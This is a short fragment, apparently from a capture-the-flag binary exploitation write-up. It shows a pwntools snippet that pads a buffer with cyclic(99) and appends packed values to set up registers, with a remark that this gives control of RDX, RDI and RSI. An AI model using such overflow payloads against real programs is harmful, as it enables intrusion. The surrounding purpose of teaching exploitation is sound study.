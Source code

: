 <figure><img src="../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

```python
    payload = cyclic(99)
    payload += flat([
        0x401000,               # will go to rbx
        (stack-0x6b)
    ])
```

with that we're able to control RDX, RDI and RSI
